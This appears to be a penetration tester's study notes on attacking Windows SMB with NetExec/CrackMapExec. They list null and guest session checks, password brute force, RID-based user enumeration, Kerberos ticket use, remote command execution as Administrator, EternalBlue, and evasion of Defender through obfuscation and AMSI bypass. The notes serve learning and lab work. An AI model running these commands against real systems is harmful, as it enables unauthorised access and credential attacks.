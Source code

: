 
if smb v1 - try eternal blue


nullsessions
`nxc smb 10.10.10.10`
`nxc smb 10.10.10.10 -u '' -p ''`

`nxc smb 10.10.10.10 -u 'guest' -p ''`
`nxc smb 10.10.11.222 -u 'guest' -p '' --shares`

brute force password
`nxc smb 10.10.10.10 -u 'sofia' -p 'password-file'`

enum usernames
`nxc smb 10.10.10.10 -u 'sofia' -p 'mypass1' --rid-brute`
(rid is the end of the sid)

The same but using Kerberos - Kerberos traffic is more common on the network (the default is NTLM)
`cme smb 10.10.10.10 -u 'sofia' -p 'mypass1'`
`cme smb 10.10.10.10 -u 'sofia' -p 'mypass1' -k`

--use-kcache uses existing Kerberos ticket
`cme smb 10.10.10.10 -u 'sofia' -p 'mypass1' --use-kcache`
get ticket by
`impacket-getTGT -dc-ip 10.10.10.10 domain.LOCAL/usename`
`export KRB5CCNAME= user.ccache`
mostly useful for golden.. tickets
`cme smb 10.10.10.10 -u 'Administrator' -p 'securepass2'`

Execute commands
-x uses cmd
-X uses ps
`cme smb 10.10.10.10 -u 'Administrator' -p 'securepass2' -x 'whoami'`
`cme smb 10.10.10.10 -u 'Administrator' -p 'securepass2' -X 'whoami'`

.cme/obfuscated_scripts
can make your own since fingerprinted - defender finds
custom amsi bypass on cme webbpage

or run ps with cmd lol
`cme smb 10.10.10.10 -u 'Administrator' -p 'securepass2' -x 'powershell.exe -c "GCI C:\"'`

continue from [[../09 - Windows Exploration/crackmapexec/Al's stream on crackmapexec]]

check [[../10 - AD/audrey]]
check [[../../../TO SORT/win  hacking al]]

-M spider_plus
from kristiee